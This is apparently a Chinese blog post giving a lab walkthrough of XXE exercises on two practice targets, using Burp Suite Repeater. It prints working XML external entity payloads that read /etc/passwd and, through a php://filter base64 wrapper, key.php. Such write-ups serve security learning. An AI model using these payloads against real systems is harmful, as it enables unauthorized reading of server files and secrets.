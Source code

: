 ```yaml
---
layout: post
title: 'XXE'
subtitle: 'XXE靶场练习'
date: 2021-05-26
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### XXE靶场一
> 开启靶场并随便输入值登录
![](https://1024861435.github.io/assets/img/XXE3.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE4.png)

> 发送到repeater模块修改发送包

  把key.php的内容进行base64编码并把值给test，然后&test 放回值

  <!DOCTYPE xxe[

<!ENTITY test SYSTEM

"php://filter/convert.base64-encode/resource=key.php">

]>
![](https://1024861435.github.io/assets/img/XXE1.png)

> 把放回的值进行base64解码
![](https://1024861435.github.io/assets/img/XXE2.png)

### XXE靶场二


> 开启靶场并随便输入值登录
> ![](https://1024861435.github.io/assets/img/XXE5.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE7.png)

> 发送到repeater模块修改发送包，发现可以读取/etc/passwd文件的内容

 
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "file:///etc/passwd">

]>
![](https://1024861435.github.io/assets/img/XXE6.png)

>基于之前靶场存放key的方式，推测有key.php的文件
  
于是试着改xxe读该文件

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=key.php">

]>

发现读出内容
![](https://1024861435.github.io/assets/img/XXE8.png)

>把内容进行base64解码得到key

![](https://1024861435.github.io/assets/img/XXE9.png)
